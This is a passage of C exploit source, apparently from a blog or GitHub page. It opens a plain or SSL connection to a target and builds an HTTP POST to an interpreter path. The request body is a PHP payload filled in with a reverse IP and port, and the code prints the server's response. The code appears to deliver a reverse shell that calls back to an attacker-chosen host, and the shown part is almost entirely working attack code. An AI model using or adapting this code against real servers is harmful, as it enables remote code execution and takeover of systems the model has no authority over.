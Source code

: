 >     sslconnection->handle = SSL_new(sslconnection->ctx);
>     if (!sslconnection->handle) {
>      printf("SSL_new error (12)\n");
>      exit(255);   
>     }
>     if (!SSL_set_fd(sslconnection->handle, sockfd)) {
>      printf("SSL_set_fd error (13)\n");
>      exit(255);
>     }
>    
>     if (SSL_connect(sslconnection->handle) != 1) {
>      printf("SSL_connect error (14)\n");
>      exit(255);       
>     }
>    }
>   
>    tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
>    tmpstr = (char*)calloc(tmpsize, sizeof(char));
>    snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);
>    
>    writesize = strlen(target) + strlen(interpreter) + 
>      strlen(poststr) + strlen(tmpstr) + 64;
>    writestr = (char*)calloc(writesize, sizeof(char));
>    snprintf(writestr, writesize, poststr, interpreter,
>      target, strlen(tmpstr), tmpstr);
>   
>    if (!httpsflag) {
>      write(sockfd, writestr, strlen(writestr));
>      readbuf = read_(sockfd);
>    } else {
>      SSL_write(sslconnection->handle, writestr, strlen(writestr));
>      readbuf = sslread(sslconnection);
>    }
>   
>    if (readbuf) {
>      printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);  
>    } else {
>     printf("read error (15)\n");
>     exit(255);    
>    }
>   }
>   exit(1);
> }
> {% endhighlight %}

